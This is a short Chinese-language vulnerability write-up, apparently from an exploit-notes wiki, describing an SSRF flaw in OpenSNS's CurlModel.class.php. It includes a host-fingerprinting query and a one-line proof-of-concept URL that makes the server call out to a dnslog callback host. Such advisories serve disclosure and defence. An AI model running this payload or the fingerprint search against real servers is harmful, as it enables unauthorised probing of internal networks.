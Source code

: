 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

存在漏洞的文件为 `Application/Admin/Model/CurlModel.class.php`

![img](../../../.vuepress/public/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

构造POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![img](../../../.vuepress/public/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)